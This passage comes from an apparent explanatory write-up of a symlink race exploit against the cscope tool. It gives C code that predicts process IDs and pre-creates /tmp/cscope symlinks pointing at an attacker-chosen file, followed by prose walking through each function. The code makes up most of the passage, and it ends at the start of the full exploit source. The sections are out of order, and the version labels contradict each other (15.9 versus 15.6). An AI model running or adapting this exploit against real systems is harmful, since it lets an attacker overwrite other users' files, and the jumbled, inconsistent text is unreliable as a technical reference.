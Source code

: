 ```c
        char buffer[BSIZE];
        // Create a buffer with a filename based on process id
        snprintf(buffer, sizeof(buffer), "/tmp/cscope%d.%d", cur, (i == 2) ? --i : ++i);
        // Create a symbolic link using the target and the buffer filename
        symlink(exploit->target, buffer);
    }
}
```
This function is responsible for executing the exploit. It calculates the current and last process IDs, prints a header with information about the exploit, and enters a loop to create symbolic links in the `/tmp` directory.

### 5. **Main Function:**
```c
int main(int argc, char *argv[]) {
    if (argc != 3) {
        fprintf(stderr, "Usage: %s <target> <max file creation>\n", argv[0]);
        return 1;
    }

    CscopeExploit exploit;
    initExploit(&exploit, argv[1], atoi(argv[2]));
    runExploit(&exploit);

    return 0;
}
```
The main function serves as the entry point of the program. It checks if the correct number of command-line arguments is provided, creates an instance of the `CscopeExploit` structure, initializes it, and runs the exploit.

### 6. **Symbolic Link Creation:**
```c
while (++cur != lst) {
    char buffer[BSIZE];
    // Create a buffer with a filename based on process id
    snprintf(buffer, sizeof(buffer), "/tmp/cscope%d.%d", cur, (i == 2) ? --i : ++i);
    // Create a symbolic link using the target and the buffer filename
    symlink(exploit->target, buffer);
}
```
The loop iterates over the process IDs, creating a buffer with a filename based on the process ID. It then creates a symbolic link in the `/tmp` directory using the target and the buffer filename.

### The Code

The exploit is written in the C programming language and takes advantage of symlink creation to potentially compromise system security. Let's break down the key components of the code.

```c
// Code snippet for Cscope 15.9 Symlink Exploit
/* RXcscope exploit version 15.6 and minor */
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

#define BSIZE 64

int main(int ac, char *av[]) {
        pid_t cur;
        u_int i=0, lst;
        char buffer[BSIZE + 1];
        
```